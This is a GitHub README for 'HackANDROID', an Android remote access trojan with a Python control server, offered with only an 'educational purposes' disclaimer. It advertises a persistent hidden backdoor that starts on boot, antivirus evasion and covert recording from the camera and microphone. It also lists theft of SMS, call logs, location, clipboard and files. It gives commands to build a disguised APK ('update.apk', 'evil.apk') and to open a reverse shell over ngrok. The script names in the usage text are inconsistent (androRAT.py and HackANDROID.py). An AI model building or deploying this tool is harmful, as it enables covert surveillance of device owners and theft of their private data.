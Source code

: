 **Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.
# HackANDROID

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![GitHub followers](https://img.shields.io/github/followers/Coders-World-Start?label=Follow&style=social)](https://github.com/Coders-World-Start)

HackANDROID is a tool designed to give the control of the android system remotely and retrieve informations from it. HackANDROID is a client/server application developed in Java Android for the client side and the Server is in Python.



## Features of HackANDROID
* Full persistent backdoor
* ~~Fully undetectable by any antivirus scanner [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)~~
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
HackANDROID requires Python (3.6+) and JAVA 8 .
## Installation
```
git clone https://github.com/Coders-World-Start/HackANDROID.git
pip install -r requirements.txt
```
## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--proceed` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--bash` - getting an interactive shell of the device

### `proceed` mode

```
Usage:
  python androRAT.py --proceed --ngrok -i <IP> -p <Port> -a <name.apk>
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -a, --apk           Name for the apk file (optional by default its set to "update.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python androRAT.py --proceed -i <IP> -p <Port> -a <name.apk>
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `bash` mode
```
Usage:
  python HackANDROID.py --bash -i <IP> -p <Port>
  Flags:
    -i, --ip                Last IP address
    -p, --port              Last port number
```
After running the `bash` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh bash there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python HackANDROID.py --proceed --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python HackANDROID.py --proceed -i 192.169.x.x -p 8000 -o evil.apk```
* To get IP address :
'''ifconfig''' --> (In Linux Terminal)
'''ipconfig''' --> (In Window CMD)

* To get the interpreter:
```python HackANDROID.py --bash -i 0.0.0.0 -p 8000```


## License
HackANDROID is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


